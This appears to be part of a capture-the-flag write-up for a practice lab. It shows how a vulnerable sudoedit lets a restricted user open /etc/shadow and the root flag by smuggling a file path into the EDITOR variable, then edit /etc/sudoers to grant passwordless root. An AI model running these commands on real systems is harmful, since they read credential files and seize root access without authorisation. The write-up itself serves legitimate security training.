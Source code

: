 We see that we have installed a vulnerable version of `sudo`
![sudoedit](sudoedit.png){: width="800" height="150" .shadow }

Ww export `EDITOR`="nano -- /etc/shadow" we attempt to make vi open `/etc/shadow` directly when `sudoedit` is used
>you can use vim also but in our case we use nano
{: .prompt-info}

```console
$ export EDITOR="nano -- /etc/shadow"
$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
We are able to read `/etc/shadow` file
![root](root.png){: width="800" height="150" .shadow }

Next we can try to read the `root flag`
```console
export EDITOR="nano -- /root/root.txt"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
``` 
Gotcha! We are able to read the root flag
>**Q: What is the root.txt flag?**
![tool](tool.png){: width="800" height="150" .shadow }

## Root Shell
Now it's time to become `root`.
**To escalate our privileges to root, we try edit the `/etc/sudoers` file.**
```console
export EDITOR="nano -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Now we can read /etc/sudoers
![Final_Root](final_root.png){: width="800" height="150" .shadow }

Now , We simply add the following line as the `Second entry` in the file:
```console
root ALL=(ALL:ALL) ALL
web ALL=(root) NOPASSWD: ALL            <<<<<     ""Here We G0"
## Uncomment to allow members of group wheel to execute any command
# %wheel ALL=(ALL:ALL) ALL

## Same thing without a password
# %wheel ALL=(ALL:ALL) NOPASSWD: ALL

## Uncomment to allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
web     ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
## Uncomment to allow any user to run sudo if they know the password
## of the user they are running the command as (root by default).
# Defaults targetpw  # Ask for the password of the target user
# ALL ALL=(ALL:ALL) ALL  # WARNING: only use this together with 'Defaults targetpw'

## Read drop-in files from /etc/sudoers.d
```
Now we become finally `root`
![Roo0t](Rooot.png){: width="800" height="150" .shadow }
